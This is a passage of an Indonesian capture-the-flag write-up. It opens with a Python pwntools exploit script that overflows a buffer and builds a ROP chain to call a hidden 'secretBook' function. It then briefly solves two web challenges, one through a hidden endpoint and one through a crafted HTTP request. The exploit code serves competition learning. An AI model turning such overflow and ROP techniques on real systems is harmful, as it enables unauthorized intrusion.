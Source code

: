 ```python 

    def debug(self, script=None):
        if not args.RMT:
            if script:
                attach(self.p, script)
            else:
                attach(self.p)


x, p = init()
x.debug((
        "source /usr/share/gef/gef.py\n"
        # "break *searchBook+77\n"
        # "break *reqBook+108\n"
        "break *reqBook+246\n"
        "c\n"
))
pad = b"A".rjust(32, b"\x00")+cyclic(18)+p32(0x12a150e3)
r = ROP(exe)
r.find_gadget(['ret'])
r.call('secretBook')

p.sendline(b"4")
p.sendline(flat(pad, cyclic(4), r))
p.interactive()
```

WEB
===

## Vision

Pada source code HTML kita akan menemukan endpoint `/webChallSecret` seperti berikut

![](https://i.imgur.com/QnAIA3E.png)

Setelah masuk kita disable style hidden seperti berikut dan kita akan mendapatkan flagnya

![](https://i.imgur.com/DlkQsAK.png)

## Web of the Gods

Pada challenge ini kita akan menebak-nebak header dengan mengandalkan hint yang diberikan dari server. Berikut request akhir yang saya buat untuk mendapatkan flag dari server:

```http 
GET /Domain-of-Gods/secript.js HTTP/1.1
Host: 34.101.234.148:8069
Content-Length: 15
DNT: 1
Referer: https://www.jointsugm.id/
Accept-Language: el
Connection: close
```
